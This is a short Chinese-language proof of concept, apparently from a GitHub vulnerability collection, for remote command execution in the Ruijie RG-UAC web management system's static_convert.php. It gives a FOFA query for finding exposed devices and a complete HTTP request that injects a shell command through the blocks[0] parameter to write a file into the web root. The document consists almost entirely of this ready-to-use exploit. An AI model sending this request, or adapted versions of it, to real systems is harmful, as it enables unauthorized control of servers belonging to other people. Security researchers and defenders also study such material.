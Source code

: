 ## 锐捷上网行为管理系统static_convert.php存在远程命令执行漏洞

锐捷统一上网行为管理与审计RG-UAC系列是星网锐捷网络有限公司自主研发的上网行为管理与审计产品，static_convert.php存在远程命令执行漏洞，导致服务器被控。

## fofa

```
title="RG-UAC登录页面"
```

## poc

```
GET /view/IPV6/naborTable/static_convert.php?blocks[0]=||%20%20echo%20'mht666'%20>>%20/var/www/html/mht.txt%0A HTTP/1.1
Host:
Accept: application/json, text/javascript, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

写入`mht.txt`，文件访问`http://127.0.0.1/mht.txt`

![image-20240621192248862](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211922899.png)